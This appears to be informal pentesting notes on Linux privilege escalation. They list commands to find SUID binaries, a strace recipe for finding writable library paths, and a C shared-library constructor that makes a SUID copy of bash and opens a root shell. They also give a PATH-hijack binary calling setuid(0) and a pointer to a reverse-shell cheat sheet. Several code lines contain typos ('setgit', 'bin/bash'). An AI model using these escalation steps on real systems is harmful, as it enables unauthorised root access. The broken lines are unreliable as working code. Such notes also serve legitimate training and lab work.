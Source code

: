 ```dirsearch -u <url>```

First one is more clean

    find / -perm -u=s -type f 2>/dev/null

    find / -type f -perm -04000 -ls 2>/dev/null

good entry point is systemctl

https://gtfobins.github.io/

Search for systemcrl - SUID
paste the lines each single

    env - is a good point here 

*Escalate SUID Manually*

install strace for analysing what is called by an application

    strace patchToApplication 2>&1 | grep -i -E "open|access|no such file"

Search for something that you as user have writing permissions

Replace it with C script

    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));

    void inject() {
        system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }

Compile with

    gcc -shared -fPIC -o /pathToDeployTo /PathOfTheSourceFile

*Escalate with PATH manipulation*

Create an alternative "service" file to execute.
This will only with in combination with SUID.

    echo 'int main() { setgit(0); setuid(0); system("bin/bash"); return 0;}' > /tmp/service.c
    gcc /tmp/service.c -o /tmp/service
    export PATH=/tmp:$PATH

*Reverse Shell one liner*

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 

Make files downloadable

    sudo service apache2 start
    cp file /var/www/html
    id - gives you current rights 

*Priviledge Check*

https://github.com/GammaG/linuxprivchecker


```